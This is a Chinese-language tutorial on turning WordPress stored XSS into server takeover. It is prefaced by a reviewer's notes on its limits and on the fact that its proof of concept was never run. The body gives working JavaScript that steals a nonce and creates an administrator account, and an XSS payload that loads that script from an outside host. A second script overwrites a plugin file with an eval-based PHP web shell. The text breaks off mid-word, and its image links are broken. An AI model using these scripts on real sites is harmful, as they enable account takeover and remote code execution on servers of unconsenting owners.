



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：existingXSS executes inprivilegedvictimsession; usercreation/editorcapability; correctsubdirectory/pluginfilewritable; CSPallowsload

- **结论使用边界（1）**：元数据4046不是本教程独立原漏洞，核心是通用后利用，应仅引用而非主漏洞。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：外部脚本URL多空格/智能引号/HTML实体，nonce正则脆弱且/wordpress与根路径混用。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（3）**：PHP编辑器请求依旧版接口，未检查保存成功；高权限会话不保证文件编辑开放。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **代码与转录边界（4）**：两张图片指4046目录，需核是否复用错配；结尾base6截断。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **操作与副作用边界（5）**：账号创建/改插件有持久破坏，不能描述普通XSS验证；无原始来源。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（从xss到getshell） xss的深层次利用与探讨
=========================================

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian\@lcx.cc

通过js文件添加wp系统管理员
--------------------------

### 1、创建管理账号

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin
\[.\]
js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为"
attacker"，密码为" attacker"。

    // Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
    var ajaxRequest = new XMLHttpRequest();  
    var requestURL = "/wordpress/wp-admin/user-new.php";  
    var nonceRegex = /ser" value="([^"]*?)"/g;  
    ajaxRequest.open("GET", requestURL, false);  
    ajaxRequest.send();  
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
    var nonce = nonceMatch[1];  

    // Construct a POST query, using the previously extracted 'nonce' value, and create a new user with an arbitrary username / password, as an Administrator  
    var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";  
    ajaxRequest = new XMLHttpRequest();  
    ajaxRequest.open("POST", requestURL, true);  
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  
    ajaxRequest.send(params);

然后，攻击者可以使用以下PoC插入JavaScript。

    “"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;”

### 图1.插入XSS代码以添加管理员帐户

xss的深层次利用与探讨/media/rId24.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户"攻击者"。

### 图2. XSS代码被执行

xss的深层次利用与探讨/media/rId26.png)

### 图3. XSS代码创建的具有管理员权限的"攻击者"帐户

xss的深层次利用与探讨/media/rId28.png)

然后，攻击者可以将现有的php文件修改为Webshell，并使用该Webshell来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

xss的深层次利用与探讨/media/rId29.png)

图5.控制Web服务器

xss的深层次利用与探讨/media/rId30.png)

### 2、恶意命令执行

    // Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
    var ajaxRequest = new XMLHttpRequest();
    var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
    var nonceRegex = /ce" value="([^"]*?)"/g;
    ajaxRequest.open("GET", requestURL, false);
    ajaxRequest.send();
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
    var nonce = nonceMatch[1];

    // Construct a POST query, using the previously extracted 'nonce' value, and update the content of the file 'akismet/index.php' with our tiny web shell
    var params = "_wpnonce="+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST['x']));&action=update&file=akismet/index.php"
    ajaxRequest = new XMLHttpRequest();
    ajaxRequest.open("POST", requestURL, true);
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    ajaxRequest.send(params);

一旦此XSS被管理用户触发，我们应该能够通过向脚本

<http://0-sec.org/wp-content/plugins/akismet/index.php>

发送GET / POST请求来执行任意PHP代码，其中参数" x"等于我们的PHP代码的"
base6
